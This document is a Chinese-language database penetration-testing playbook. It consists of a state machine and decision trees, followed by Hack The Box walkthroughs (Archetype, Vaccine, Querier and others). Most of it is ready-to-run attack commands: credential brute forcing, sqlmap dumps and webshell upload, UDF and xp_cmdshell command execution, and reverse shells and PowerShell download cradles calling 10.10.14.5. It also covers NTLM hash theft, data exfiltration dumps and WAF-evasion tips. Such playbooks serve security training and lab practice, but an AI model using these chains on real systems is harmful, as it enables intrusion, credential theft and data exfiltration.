

# 数据库攻击状态机

## 概述
数据库攻击是针对 MySQL、MSSQL、PostgreSQL、Oracle 等数据库系统的渗透测试流程。本状态机涵盖从发现、枚举、注入、提权到数据窃取的完整攻击链。

## 攻击流程图



## 状态转换表

| 当前状态 | 条件 | 动作 | 下一状态 | 工具 |
|---------|------|------|---------|------|
| 发现服务 | MySQL 3306 | 识别为 MySQL | MySQL 攻击 | nmap |
| 发现服务 | MSSQL 1433 | 识别为 MSSQL | MSSQL 攻击 | nmap |
| 发现服务 | PostgreSQL 5432 | 识别为 PostgreSQL | PostgreSQL 攻击 | nmap |
| 无凭证 | 默认凭证 | 测试默认密码 | 尝试连接 | hydra |
| 无凭证 | 暴力破解 | 字典攻击 | 尝试连接 | hydra, medusa |
| 无凭证 | SQL 注入 | 注入攻击 | 获得数据 | sqlmap |
| 有凭证 | 连接成功 | 枚举数据库 | 数据列表 | mysql, mssqlclient |
| 枚举完成 | 有敏感数据 | 导出数据 | 数据窃取 | mysqldump |
| 枚举完成 | 有高权限 | 尝试提权 | 命令执行 | UDF, xp_cmdshell |
| 命令执行 | 成功 | 反向 shell | 系统权限 | - |

## 决策树

### 1. 数据库类型识别与连接
```
IF 发现 MySQL (3306)
  THEN 尝试连接
    # 默认凭证
    mysql -h target -u root -p
    # 常见密码: root, password, admin, mysql

    # 暴力破解
    hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://target

    # 使用 Metasploit
    use auxiliary/scanner/mysql/mysql_login
    set RHOSTS target
    set USER_FILE users.txt
    set PASS_FILE passwords.txt
    run

ELSE IF 发现 MSSQL (1433)
  THEN 尝试连接
    # 使用 impacket
    mssqlclient.py sa:password@target

    # 暴力破解
    hydra -l sa -P passwords.txt mssql://target

    # 使用 Metasploit
    use auxiliary/scanner/mssql/mssql_login
    set RHOSTS target
    run

ELSE IF 发现 PostgreSQL (5432)
  THEN 尝试连接
    # psql 连接
    psql -h target -U postgres -d postgres

    # 暴力破解
    hydra -l postgres -P passwords.txt postgres://target

ELSE IF 发现 Oracle (1521)
  THEN 尝试连接
    # sqlplus 连接
    sqlplus system/password@target:1521/XE

    # 使用 ODAT
    odat all -s target -p 1521
```

### 2. 数据库枚举
```
IF 连接到 MySQL
  THEN 枚举数据库
    # 列出数据库
    SHOW DATABASES;

    # 列出表
    USE database_name;
    SHOW TABLES;

    # 列出列
    DESCRIBE table_name;

    # 检查权限
    SELECT user, host FROM mysql.user;
    SHOW GRANTS FOR 'user'@'host';

    # 检查是否可以读写文件
    SELECT @@secure_file_priv;

ELSE IF 连接到 MSSQL
  THEN 枚举数据库
    # 列出数据库
    SELECT name FROM sys.databases;

    # 列出表
    SELECT * FROM information_schema.tables;

    # 检查权限
    SELECT * FROM fn_my_permissions(NULL, 'SERVER');

    # 检查 xp_cmdshell 状态
    EXEC sp_configure 'xp_cmdshell';

ELSE IF 连接到 PostgreSQL
  THEN 枚举数据库
    # 列出数据库
    \l

    # 列出表
    \dt

    # 检查权限
    SELECT * FROM pg_roles;

    # 检查是否为超级用户
    SELECT current_user, session_user, usename, usesuper FROM pg_user WHERE usename = current_user;
```

### 3. SQL 注入利用
```
IF 发现 SQL 注入点
  THEN 使用 sqlmap
    # 基础注入
    sqlmap -u "http://target/page.php?id=1" --batch

    # 枚举数据库
    sqlmap -u "http://target/page.php?id=1" --dbs

    # 枚举表
    sqlmap -u "http://target/page.php?id=1" -D database_name --tables

    # 导出数据
    sqlmap -u "http://target/page.php?id=1" -D database_name -T users --dump

    # 获取 shell
    sqlmap -u "http://target/page.php?id=1" --os-shell

    # 读取文件
    sqlmap -u "http://target/page.php?id=1" --file-read="/etc/passwd"

    # 写入文件
    sqlmap -u "http://target/page.php?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"
```

### 4. 数据库提权和命令执行
```
IF MySQL 且有 FILE 权限
  THEN 使用 UDF 提权
    # 上传 UDF 库
    SELECT BINARY 0x7f454c46... INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';

    # 创建函数
    CREATE FUNCTION sys_exec RETURNS int SONAME 'udf.so';

    # 执行命令
    SELECT sys_exec('bash -c "bash -i >& /dev/tcp/10.10.14.5/4444 0>&1"');

ELSE IF MSSQL 且有 sysadmin 权限
  THEN 启用 xp_cmdshell
    # 启用高级选项
    EXEC sp_configure 'show advanced options', 1;
    RECONFIGURE;

    # 启用 xp_cmdshell
    EXEC sp_configure 'xp_cmdshell', 1;
    RECONFIGURE;

    # 执行命令
    EXEC xp_cmdshell 'whoami';

    # 反向 shell
    EXEC xp_cmdshell 'powershell -c "IEX(New-Object Net.WebClient).DownloadString(''http://10.10.14.5/shell.ps1'')"';

ELSE IF PostgreSQL 且为超级用户
  THEN 使用 COPY FROM PROGRAM
    # 执行命令
    COPY (SELECT '') TO PROGRAM 'bash -c "bash -i >& /dev/tcp/10.10.14.5/4444 0>&1"';

    # 或创建表并执行
    CREATE TABLE cmd_exec(cmd_output text);
    COPY cmd_exec FROM PROGRAM 'id';
    SELECT * FROM cmd_exec;
```

## 实战场景

### 场景 1: MySQL 默认凭证 + UDF 提权
**HTB 靶机**: Popcorn

**攻击链路**:
1. 扫描发现 MySQL
   ```bash
   nmap -p 3306 -sV 10.10.10.6
   ```

2. 测试默认凭证
   ```bash
   mysql -h 10.10.10.6 -u root -p
   # 密码: root
   ```

3. 枚举数据库
   ```sql
   SHOW DATABASES;
   USE mysql;
   SELECT user, host, password FROM user;
   ```

4. 检查文件权限
   ```sql
   SELECT @@secure_file_priv;
   # 如果为空，可以读写任意文件
   ```

5. 上传 UDF 库
   ```sql
   SELECT BINARY 0x7f454c46... INTO DUMPFILE '/usr/lib/mysql/plugin/raptor_udf2.so';
   ```

6. 创建函数并执行命令
   ```sql
   CREATE FUNCTION do_system RETURNS INTEGER SONAME 'raptor_udf2.so';
   SELECT do_system('bash -c "bash -i >& /dev/tcp/10.10.14.5/4444 0>&1"');
   ```

### 场景 2: MSSQL xp_cmdshell 命令执行
**HTB 靶机**: Archetype

**攻击链路**:
1. 使用 impacket 连接
   ```bash
   mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth
   ```

2. 检查权限
   ```sql
   SELECT IS_SRVROLEMEMBER('sysadmin');
   # 返回 1 表示有 sysadmin 权限
   ```

3. 启用 xp_cmdshell
   ```sql
   EXEC sp_configure 'show advanced options', 1;
   RECONFIGURE;
   EXEC sp_configure 'xp_cmdshell', 1;
   RECONFIGURE;
   ```

4. 执行命令
   ```sql
   EXEC xp_cmdshell 'whoami';
   ```

5. 下载并执行反向 shell
   ```sql
   EXEC xp_cmdshell 'powershell -c "IEX(New-Object Net.WebClient).DownloadString(''http://10.10.14.5/Invoke-PowerShellTcp.ps1'')"';
   ```

### 场景 3: SQL 注入到数据窃取
**HTB 靶机**: Nineveh

**攻击链路**:
1. 发现 SQL 注入
   ```bash
   sqlmap -u "http://10.10.10.43/department/login.php" --data="username=admin&password=test" --batch
   ```

2. 枚举数据库
   ```bash
   sqlmap -u "http://10.10.10.43/department/login.php" --data="username=admin&password=test" --dbs
   ```
   发现: `ninevehNotes`

3. 枚举表
   ```bash
   sqlmap -u "http://10.10.10.43/department/login.php" --data="username=admin&password=test" -D ninevehNotes --tables
   ```
   发现: `users`, `notes`

4. 导出数据
   ```bash
   sqlmap -u "http://10.10.10.43/department/login.php" --data="username=admin&password=test" -D ninevehNotes -T users --dump
   ```
   获得: 用户名和密码哈希

5. 破解哈希
   ```bash
   john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
   ```

### 场景 4: PostgreSQL COPY FROM PROGRAM RCE
**HTB 靶机**: Vaccine

**攻击链路**:
1. 连接到 PostgreSQL
   ```bash
   psql -h 10.10.10.46 -U postgres -d postgres
   # 密码: P@s5w0rd!
   ```

2. 检查权限
   ```sql
   SELECT current_user, session_user;
   SELECT usename, usesuper FROM pg_user WHERE usename = current_user;
   ```
   确认为超级用户

3. 创建表
   ```sql
   CREATE TABLE cmd_exec(cmd_output text);
   ```

4. 执行命令
   ```sql
   COPY cmd_exec FROM PROGRAM 'id';
   SELECT * FROM cmd_exec;
   ```

5. 反向 shell
   ```sql
   COPY cmd_exec FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/10.10.14.5/4444 0>&1"';
   ```

### 场景 5: MySQL 文件读写
**HTB 靶机**: Cronos

**攻击链路**:
1. SQL 注入发现
   ```bash
   sqlmap -u "http://admin.cronos.htb/welcome.php" --cookie="PHPSESSID=..." --data="host=www.google.com" --batch
   ```

2. 检查文件权限
   ```bash
   sqlmap -u "http://admin.cronos.htb/welcome.php" --cookie="PHPSESSID=..." --data="host=www.google.com" --sql-query="SELECT @@secure_file_priv"
   ```

3. 读取文件
   ```bash
   sqlmap -u "http://admin.cronos.htb/welcome.php" --cookie="PHPSESSID=..." --data="host=www.google.com" --file-read="/etc/passwd"
   ```

4. 写入 Webshell
   ```bash
   # 创建 shell.php
   echo '<?php system($_GET["cmd"]); ?>' > shell.php

   # 上传
   sqlmap -u "http://admin.cronos.htb/welcome.php" --cookie="PHPSESSID=..." --data="host=www.google.com" --file-write="shell.php" --file-dest="/var/www/html/shell.php"
   ```

5. 访问 Webshell
   ```bash
   curl "http://admin.cronos.htb/shell.php?cmd=id"
   ```

### 场景 6: MSSQL 哈希窃取
**HTB 靶机**: Querier

**攻击链路**:
1. 连接到 MSSQL
   ```bash
   mssqlclient.py reporting@10.10.10.125 -windows-auth
   ```

2. 启用 xp_dirtree 窃取哈希
   ```sql
   EXEC xp_dirtree '\\10.10.14.5\share';
   ```

3. Kali 启动 Responder
   ```bash
   responder -I tun0
   ```
   捕获 NTLMv2 哈希

4. 破解哈希
   ```bash
   hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
   ```

5. 使用破解的密码连接
   ```bash
   mssqlclient.py mssql-svc:password@10.10.10.125 -windows-auth
   ```

## 工具对比

| 工具 | 数据库类型 | 优势 | 劣势 | 使用场景 |
|------|-----------|------|------|---------|
| **sqlmap** | 全部 | 自动化程度高 | 速度较慢 | SQL 注入自动化 |
| **mysql** | MySQL | 官方客户端 | 仅限 MySQL | 直接连接 MySQL |
| **mssqlclient.py** | MSSQL | 支持 Windows 认证 | 仅限 MSSQL | 连接 MSSQL |
| **psql** | PostgreSQL | 官方客户端 | 仅限 PostgreSQL | 连接 PostgreSQL |
| **hydra** | 全部 | 支持多种数据库 | 速度一般 | 暴力破解凭证 |
| **Metasploit** | 全部 | 模块丰富 | 容易被检测 | 综合攻击 |

## 关键技巧

### 1. MySQL UDF 提权
```bash
# 生成 UDF 库
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f elf-so -o udf.so

# 转换为十六进制
xxd -p udf.so | tr -d '\n' > udf.hex

# 在 MySQL 中上传
SELECT BINARY 0x<hex_content> INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';

# 创建函数
CREATE FUNCTION sys_exec RETURNS int SONAME 'udf.so';

# 执行
SELECT sys_exec('nc -e /bin/bash 10.10.14.5 4444');
```

### 2. MSSQL 哈希窃取
```sql
-- 使用 xp_dirtree
EXEC xp_dirtree '\\attacker_ip\share';

-- 使用 xp_fileexist
EXEC xp_fileexist '\\attacker_ip\share\file.txt';

-- Kali 启动 Responder
responder -I tun0 -v
```

### 3. PostgreSQL 大对象提权
```sql
-- 创建大对象
SELECT lo_import('/etc/passwd', 1337);

-- 导出大对象
SELECT lo_export(1337, '/tmp/passwd');

-- 删除大对象
SELECT lo_unlink(1337);
```

### 4. 数据外传
```bash
# MySQL 导出
mysqldump -h target -u root -p database_name > dump.sql

# MSSQL 导出
mssqlclient.py user:pass@target -windows-auth -q "SELECT * FROM database.dbo.users" -o output.csv

# PostgreSQL 导出
pg_dump -h target -U postgres database_name > dump.sql
```

## 防御检测

**攻击者视角的防御绕过**:
- 使用慢速查询避免触发 WAF
- 使用编码绕过过滤（URL 编码、十六进制）
- 使用时间盲注避免直接输出
- 使用合法凭证避免暴力破解检测

**防御者检测指标**:
- 异常的数据库查询
- 大量失败的登录尝试
- xp_cmdshell 被启用
- 异常的文件读写操作
- 数据库用户权限变化
- 大量数据导出

## 相关状态机
- [01-network-service-enumeration.md](01-network-service-enumeration.md) - 数据库服务发现
- [03-web-application-attack.md](03-web-application-attack.md) - SQL 注入
- [09-brute-force-attack.md](09-brute-force-attack.md) - 数据库暴力破解
- [05-privilege-escalation.md](05-privilege-escalation.md) - 数据库提权后系统提权
